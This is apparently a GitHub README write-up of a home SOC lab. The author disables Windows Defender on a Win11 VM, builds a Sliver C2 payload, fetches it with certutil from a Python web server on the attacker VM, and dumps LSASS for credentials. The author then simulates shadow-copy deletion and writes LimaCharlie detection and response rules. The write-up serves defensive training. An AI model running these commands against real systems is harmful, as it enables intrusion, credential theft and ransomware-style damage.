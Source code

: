 # EDR-Attack-and-Defense-Lab

In this foundational SOC Home Lab I spun up a Win11 vm as my victim client and disabled Windows Defender EDR. Set up a C2 framework using Sliver for emulating threat-actor behavior by crafting my very own malicious payload. Threw attacks, caught the detections and watched the malicious traffic. Set up automated D&R rules to mitigate these attacks.

Eric Capuano's Guide: https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?utm_campaign=post&utm_medium=web

### Setup:

First I spun up both virtual machines. The attack machine will run on Ubuntu Server, and the endpoint will be running Windows 11. In order for this lab to work smoothly I turned off all the Windows Security solutions (Virus & threat protection, Microsoft Defender Firewall, etc.) on the Windows 11 VM, making it my vulnerable victim machine. I am also going to be installing Sliver on the Ubuntu machine as my primary attack tool, and setting up LimaCharlie on the Windows machine as an EDR solution. LimaCharlie will have a sensor linked to the Windows machine, and will be importing sysmon logs.

### Skills Learned

- Advanced understanding of EDR concepts and practical application.
- Proficiency in analyzing and interpreting network telemetry.
- Ability to generate, deploy, transfer, and execute a Command & Control payload on the Windows endpoint using Sliver.
- Enhanced knowledge of Windows commands to gather information and assess system privileges.
- Familiarization with normal vs. anomalous activity to enhance threat detection capabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.
- Understanding the process of performing hash scans on sites like VirusTotal to identify known malware. As well as understanding false negative results when dealing with a newly crafted payload.
- Detection rule creation and response implementation on a SecOps Cloud Platform such as LimaCharlie.


### Tools Used

- LimaCharlie EDR for endpoint detection and response capabilities,
monitoring and capturing telemetry, creating and applying detection rules.
- Sysmon integrated with LimaCharlie for detailed network logging and event capture on the Windows endpoint.
- VirusTotal used for scanning and analyzing the hash of executables to identify known malware.
- Sliver C2 Server for crafting and deploying a malicious payload.
- Utilizing Windows and Linux CLI

## Steps

*Ref 1: Windows Security controls off*

![image](https://github.com/user-attachments/assets/415b034b-db82-4da7-bdf9-88b55b2f52c3)

![image](https://github.com/user-attachments/assets/9d6597e1-a266-4ab8-8852-72c1754aeede)

![image](https://github.com/user-attachments/assets/0e89acb1-c5fe-4243-85f5-938961e2f978)

![Disabling WinDefender via Registry Editor](https://github.com/user-attachments/assets/4e244807-80e6-41bd-9445-be3569724400)

#### Now that my Windows machine is vulnerable, it's time to SSH into my Ubuntu AttackBox.

*Ref 2: Using PuTTY to connect via SSH*
![Screenshot 2024-09-02 113412](https://github.com/user-attachments/assets/97f91ab3-c686-439a-b0c2-6c7954162a34)

#### Once in my Ubuntu machine I use the _'sudo su'_ command to temporarily gain root access, navigate to the sliver directory and launch Sliver-server.

*Ref 3: Launching Sliver-server and generating C2 session payload*

![image](https://github.com/user-attachments/assets/bb40665c-01da-4dda-a41b-4d2cfb7b4e79)

Using the command _'generate --http 192.168.247.129 --save /opt/sliver'_, I generate a Command & Control payload executable.

![SLIVER C2 payload GOOD_TWINE](https://github.com/user-attachments/assets/a1d170c5-f92d-4f9b-b112-41a524bf70ec)

![GOOD_TWINE implant](https://github.com/user-attachments/assets/5409a0bf-3760-48b1-a7be-91e6f5fc16c3)

Running the command _'implants'_ above, you’ll see it has created my payload with the random name **GOOD_TWINE**. 
_We will be using this payload to infect the Windows machine in the next step..._

#### I exited Sliver and made sure I was in the sliver directory. 
To download the C2 easily from the Linux VM to the Windows VM I spun up a temporary web server using Python

_'python3 -m http.server 80'_

![image](https://github.com/user-attachments/assets/14db0600-1b15-4087-a406-707710d04588)

#### I switched my attention to the Windows VM and launched an Administrative PowerShell console.
Executing the command _'certutil.exe -f -urlcache http://192.168.247.129/GOOD_TWINE.exe GOOD_TWINE.exe'_ starts the download of my payload.

*Ref 4: Downloading C2 session payload onto victim machine via Python3 web server*

![Malware Staged 2](https://github.com/user-attachments/assets/8fd84d5e-a28e-48cd-a13f-abc199bb91e3)

*Ref 5: Payload execution and Sliver session connection*

![We are In!](https://github.com/user-attachments/assets/299b4831-809b-474f-8e88-d56db49344c5)

#### Now that we are hosting a live session between the two machines, I input the commands _'info' 'getprivs'_ and _'ps -T'_ to check my remote user privileges, information on the victim machine, and see the specific security products used.
_In this case my victim machine is using Sysmon64 and Windows Smart Screen_.

*Ref 6: Full remote access*

![Inside the Windows machine](https://github.com/user-attachments/assets/0352ae0d-93e0-47cb-ae54-c729b6974974)

![Checking user privs](https://github.com/user-attachments/assets/4bf919a8-2b4f-4892-88e2-3a1a14a2b577)

![Identifying running processes in remote system](https://github.com/user-attachments/assets/a5abe060-f99e-404f-a6fa-2422107eb357)

#### We can see processes like _SeDebugPrivilege_ and _SeImpersonatePrivilege_ are Enabled, which means we are logged in as Admin.

![Implant admin privs on Windows machine](https://github.com/user-attachments/assets/628cf8ab-4473-40b4-9a46-36a155edf91c)


### Now time to go into Lima Charlie to see the noise!

Using my host machine I click the sensors tab, to see that my Windows machine is online.

![LimaCharlie Win11 vm Sensor](https://github.com/user-attachments/assets/683eea85-3abc-4784-878d-6666f4e0c2f7)

We can look inside our LimaCharlie SIEM and see telemetry from the attack. We can identify the payload thats running and see the IP its connected to.

*Ref 7: LimaCharlie Processes and Network Detection Telemetry*

![Unusual NOT signed process hmm](https://github.com/user-attachments/assets/ee04912e-9120-4411-a4f0-007de47cc5f9)
![Network Logs of our attack](https://github.com/user-attachments/assets/3ecf5dd1-1a41-4f31-8aec-ebd87f6debe6)
![Timeline of Execution](https://github.com/user-attachments/assets/dcc8720a-b590-4373-aa7c-9c017b1fa2ca)


We can also use LimaCharlie to scan the hash of the payload through VirusTotal; however, it will yield no results since we just created the brand new payload ourselves!

![Virus NOT Detected](https://github.com/user-attachments/assets/8bea1003-0e8a-4de4-ac38-7e980d2d1379)

### Now to simulate an attack to steal credentials by dumping the LSASS memory. In LimaCharlie we can check the sensors, observe the telemetry, and write rules to detect this common cyber attack.

Using the _'procdump -n lsass.exe -s lsass.dmp'_ command, I save the remote processes from memory locally on Sliver C2 server. 

![image](https://github.com/user-attachments/assets/ae281d5b-8f7c-413a-bc5a-aa908d86a980)

#### _Let's see what this looks like in LimaCharlie and set up detection alerts._

*Ref 8: Detection Rule*

![Sensitive_Process_Event](https://github.com/user-attachments/assets/d5b08096-0c1f-40cb-af0b-c76b5e93873e)

![Detection Rule](https://github.com/user-attachments/assets/a3b65c2f-7d13-4e61-9f98-928f9c13ecdc)


#### Instead of just detecting attacks, we can use LimaCharlie to create a rule that both detects and responds, by blocking threats originating from the Sliver server. By simulating ransomware on the Ubuntu machine, such as attempting to delete volume shadow copies, we can monitor the telemetry in LimaCharlie and then implement a rule that completely stops the attack. Once this rule is active in our SIEM, any further attempts by the Ubuntu machine to carry out the same attack will be blocked.

*Ref 9: Response Rule Vss_deletion_kill_it*

![Deleting shadow volume copies (Ransomware attack)](https://github.com/user-attachments/assets/020b0796-18e6-483c-bceb-363944122ad7)

![Detection of Deleting shadow volumes](https://github.com/user-attachments/assets/a7d3f7fe-a332-409f-b6ae-0e3f90f1d121)

![Response Rule Vss_deletion_kill_it](https://github.com/user-attachments/assets/78032692-1303-4ec4-be96-7e5ab2fe805f)

*Ref 10: Forced remote shell exit*

![Forced shell exit](https://github.com/user-attachments/assets/8001d5a3-a31e-400a-8e6f-90584c8ae4f8)

### Summary

#### And there you have it! I’ve walked through the complete lifecycle of emulating, detecting, and blocking cyberattacks within a SOC Home Lab. From configuring a vulnerable Windows 11 VM and disabling security features to deploying and analyzing a malicious payload using the Sliver C2 framework, I got my hands dirty with the technical details. I didn’t just observe the attacks—I actively engaged in the process of crafting detection and response rules within LimaCharlie to monitor the telemetry and ultimately block the simulated threats.

